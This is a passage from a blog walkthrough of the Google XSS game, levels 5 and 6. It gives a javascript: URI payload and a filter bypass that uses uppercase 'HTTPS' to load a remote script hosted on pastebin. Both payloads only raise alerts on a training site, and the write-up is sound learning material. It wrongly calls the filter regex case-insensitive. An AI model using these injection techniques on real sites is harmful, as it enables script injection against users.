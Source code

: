 So in our situation, we can use something like `javascript:alert()` to trigger an alert
    when some anchor tag is clicked.
Thus, my complete URL for level 5:

```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('xssNEXT!')
```

## Level 6: Follow the Rabbit

[Level 6](https://xss-game.appspot.com/level6) deals with issues around dynamically loading content
    such as javascript libraries based on values of URL parameters or part of the `location.hash` value.
As the game makers claim (and I'm liable to believe...),
    it is difficult to get this sort of dynamic loading behavior right.
This challenge features one prominent example of how this sort of behavior can go wrong...

Specifically, the issue we'll exploit is rooted in the custom regular expression
    which is meant to prevent external files being loaded.
Our objective: to load an external file that will execute an `alert()`.

For this challenge I used `pastebin.com` to host my external file: [alert](https://pastebin.com/raw/vkVePWY5).

Regarding how the code for this level works,
note that the file that is loaded depends on the text that comes *after* the `#` symbol in the URL.
We can try to specify our external file (`https://pastebin.com/raw/vkVePWY5`),
    but this won't work because of the regular expression that prevents URLs that contain any URL starting with `https`
    (see lines 20-25):

```javascript
// This will totally prevent us from loading evil URLs!
if (url.match(/^https?:\/\//)) {
  setInnerText(document.getElementById("log"),
    "Sorry, cannot load a URL containing \"http\".");
  return;
}
```

The problem with this regular expression is that it is case insensitive.
Meaning it only checks that the URL doesn't contain a lowercase version of `http...`
Thus, by changing the case of some of the letters in `http` or `https` - for example, to be `HTTPS`,
    we can "pass" the regular expression check and fool the script to load our external file.
My complete URL looks like this:

```
https://xss-game.appspot.com/level6/frame#HTTPS://pastebin.com/raw/vkVePWY5
```

# Wrapping up

The game wasn't all that long but I found it to be quite insightful!
The next question I have, however, is: *what are the best (read: state-of-the-art) techniques for preventing XSS?*
Google has some follow-up documentation that they link:
    [Google Application Security | Cross-site scripting](https://www.google.com/about/appsecurity/learning/xss/index.html).
I suppose it's time to give that a read :D
